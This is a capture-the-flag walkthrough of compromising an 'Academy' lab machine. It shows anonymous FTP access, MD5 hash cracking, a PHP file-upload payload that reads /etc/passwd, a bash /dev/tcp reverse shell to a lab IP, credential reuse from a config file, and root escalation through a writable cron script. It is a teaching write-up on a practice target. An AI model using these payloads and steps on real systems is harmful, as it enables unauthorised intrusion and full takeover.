

### Enumeration

```
~$ nmap -sV 192.168.17.135 //IP of academy machine
```


Here we can see an FTP server and an apache web server, lets check if the FTP server accepts anonymous default credentials

![[Attachments/Pasted image 20260722174710.png]]
Indeed we login as anonymous and find "note.txt" file which contains the following

![[Attachments/Pasted image 20260722174753.png]]

We find credentials for StudentRegNo and a hashed password, to dehash the password we store it in hash.md file and crack it using johntheripper with md5 format

```
~$ john --format=raw-md5 hash.md
cd73502828457d15655bbd7a63fb0bc8:student
```

Lets check the apache webserver 

![[Attachments/Pasted image 20260722175713.png]]

```
~$ gobuster dir -u http://192.168.17.135 -w /usr/share/wordlists/dirb/big.txt
===============================================================
[+] Url:                     http://192.168.17.135
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htaccess            (Status: 403) [Size: 279]
.htpasswd            (Status: 403) [Size: 279]
academy              (Status: 301) [Size: 318] [--> http://192.168.17.135/academy/]
phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.17.135/phpmyadmin/]
server-status        (Status: 403) [Size: 279]
Progress: 20469 / 20469 (100.00%)
===============================================================
Finished
===============================================================
```

Very interesting results lets use the creds we collected to login to /academy

### Web exploitation

A very interesting result could be found at /academy/my-profile.php, can you spot it?

![[Attachments/Pasted image 20260722180237.png]]

The ability to upload an image could be vulnerable to a File upload exploit

```
~$ echo "<?php system('cat /etc/passwd');?>" > not_a_payload.php
```

now lets upload our not-suspicious payload and see if it works

![[Attachments/Pasted image 20260722180606.png]]

Perfect, now lets create a reverse shell

```
~$ echo "<?php system('/bin/bash -c "bash -i >& /dev/tcp/192.168.17.130/1234 0>&1"');?>" > not_a_payload.php
~$ nc -lvnp 1234
connect to [192.168.17.130] from (UNKNOWN) [192.168.17.135] 51880
bash: cannot set terminal process group (653): Inappropriate ioctl for device
bash: no job control in this shell
www-data@academy:/var/www/html/academy/studentphoto$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now that we obtained reverse shell we need to attempt to escalate our privilege, some important data is found at /var/www/html/academy/includes/config.php

![[Attachments/Pasted image 20260722181409.png]]

Here we found mysql username and password, but lets attempt to login using ssh with these credentials 

![[Attachments/Pasted image 20260722181549.png]]

Our first escalation to a higher priv user, now we need to escalate to a root user.

Only interesting thing we found was in /etc/crontab

```
~$ cat /etc/crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

* * * * * /home/grimmie/backup.sh
```

A file named backup.sh is being run every minute as root, can we edit it perhaps?

![[Attachments/Pasted image 20260722181918.png]]
Indeed we can, we added this line to the file to open a reverse shell as root

![[Attachments/Pasted image 20260722182042.png]]

And just like that we were able to obtain root privilege and access flag.txt

Thank you very much <3
